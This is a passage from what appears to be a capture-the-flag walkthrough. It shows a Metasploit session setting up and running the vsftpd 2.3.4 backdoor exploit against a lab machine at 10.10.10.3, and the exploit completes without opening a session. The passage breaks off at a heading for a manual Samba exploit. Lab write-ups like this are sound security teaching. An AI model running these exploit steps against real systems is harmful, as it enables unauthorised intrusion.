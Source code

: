     Module options (exploit/unix/ftp/vsftpd_234_backdoor):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS                   yes       The target address range or CIDR identifier
       RPORT   21               yes       The target port (TCP)
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
    rhosts => 10.10.10.3
    

Set the payload to `cmd/unix/interact` and run:

    
    
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact 
    payload => cmd/unix/interact
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options
    
    Module options (exploit/unix/ftp/vsftpd_234_backdoor):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
       RPORT   21               yes       The target port (TCP)
    
    
    Payload options (cmd/unix/interact):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run
    
    [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 10.10.10.3:21 - USER: 331 Please specify the password.
    [*] Exploit completed, but no session was created.
    

It still fails.

I’ll explore why this fails in Beyond Root.

## SAMBA Exploit

### Completely Manually
